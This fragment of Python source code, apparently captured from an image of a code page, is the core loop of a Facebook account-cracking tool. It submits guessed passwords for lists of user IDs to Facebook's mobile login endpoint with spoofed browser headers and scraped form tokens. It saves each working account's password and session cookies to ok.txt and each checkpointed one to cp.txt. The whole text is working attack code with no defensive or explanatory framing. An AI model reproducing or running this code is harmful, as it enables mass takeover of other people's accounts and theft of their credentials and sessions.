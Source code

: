			headers = {"Host": "m.facebook.com","connection":"keep-alive","cache-control": "max-age=0","save-data": "on","origin": "https://m.facebook.com","content-type": "application/x-www-form-urlencoded","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","Pragma":"akamai-x-cache-on, akamai-x-cache-remote-on, akamai-x-check-cacheable, akamai-x-get-cache-key, akamai-x-get-extracted-values, akamai-x-get-ssl-client-session-id, akamai-x-get-true-cache-key, akamai-x-serial-no, akamai-x-get-request-id,akamai-x-get-nonces,akamai-x-get-client-ip,akamai-x-feo-trace","x-requested-with": "mark.via.gp","dnt": "1","sec-ch-ua":"' Not A;Brand';v='99', 'Chromium';v='99'","sec-ch-ua-mobile":"?1","sec-ch-ua-platform":"'Android'","sec-fetch-site": "same-origin","sec-fetch-mode": "cors","sec-fetch-user": "?1","sec-fetch-dest": "document","Upgrade-Insecure-Requests":"1","User-Agent":ugent,"referer": "https://m.facebook.com/login/device-based/password/?uid="+user+"&flow=login_no_pin","accept-encoding": "gzip, deflate","accept-language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,id;q=0.6,bs;q=0.5"}
			data = {"lsd":re.search('name="lsd" value="(.*?)"', str(url.text)).group(1),"jazoest": re.search('name="jazoest" value="(.*?)"', str(url.text)).group(1),"uid":user,"flow":"login_no_pin","pass": pw,"next": "https://m.facebook.com/login/save-device/"}
			post = ses.post("https://m.facebook.com/login/device-based/validate-password/?shbl=0", data=data, headers=headers, allow_redirects=False)
			if "c_user" in ses.cookies.get_dict():
				ok.append(user)
				coki = ";".join(i["name"]+"="+i["value"] for i in ses.cookies.get_dict())
				print(f"\r  {H}* --> {user}|{pw}|{coki}")
				open("ok.txt","a").write(f"  * --> {user}|{pw}|{coki}\n")
				break
			elif "checkpoint" in ses.cookies.get_dict():
				cp.append(user)
				print(f"\r  {K}* --> {user}|{pw}         ")
				open("cp.txt","a").write(f"  * --> {user}|{pw}\n")
				break
			else:
				continue
		loop +=1
	except Exception as e:
		time.sleep(32)

if __name__=='__main__':
	menu()
